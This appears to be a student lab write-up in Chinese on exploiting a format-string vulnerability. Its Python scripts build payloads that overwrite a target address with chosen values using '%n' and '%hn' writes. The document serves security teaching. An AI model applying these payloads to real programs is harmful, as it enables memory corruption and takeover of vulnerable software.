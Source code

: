 ```python
# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068	# target的地址
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%n"	# s = "%.8x"*63 +"%64$n" 也可以
```

测试成功，`target`的值被改成了0x200，因为在`%n`之前打印了4位宽target变量地址+4位宽的abcd+8位宽的`%.8x`*63，即$0x4+0x4+0x8\times63=0x200$。

![image-20220421202710777](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220421202710777.png)



### Task 3.B: Change the value to 0x5000

按照相同的思路，由于第64个偏移处必须填`%n`，只能想办法扩展前面部分的宽度，所以payload构造为：$address+abcd+\%.8x\times62+\%.19976x$

```python
# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%.19976x" + "%n"
```

成功将值改成0x5000：

![image-20220421205113015](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220421205113015.png)



### Task 3.C: Change the value to 0xAABBCCDD

这次要修改的值非常大，所以没有办法像上面那样直接用`%n`写入，需要拆分成两部分通过`%hn`每次写入2bytes。由于0xAABBCCDD正好是递增的，可以直接先前2个byte写0xAABB，后2个byte写0xCCDD：

$0xAABB-4-4-4-62\times8=43199$

$0xCCDD-0xAABB=8738$（`%hn`不占位置）

并且由于是小端法，低位放在低地址，$0xCCDD$放在number处，高位在高地址，$0xAABB$放在number+2处。

整体payload：$target高2位地址+abcd（junk填充字节）+target低2位地址+format\ string$

format string：`s = "%.8x"*62 + "%.43199x" + "%hn" +"%.8738x"+"%hn"  # 0xAABB + %x +0xCCDD`

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number = 0x080e5068  # target地址（小端法，读两个字节就是0x5068）
number2 = number+2  # target前2个字节地址
# little-endian
content[0:4] = (number2).to_bytes(4, byteorder='little')  # high addr:0xAABB
content[8:12] = (number).to_bytes(4, byteorder='little')  # low addr:0xCCDD 因为payload中间有一个"%.8738x"，所以要放在8:12的位置

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%.43199x" + "%hn" +"%.8738x"+"%hn"  # 0xAABB + %x +0xCCDD
```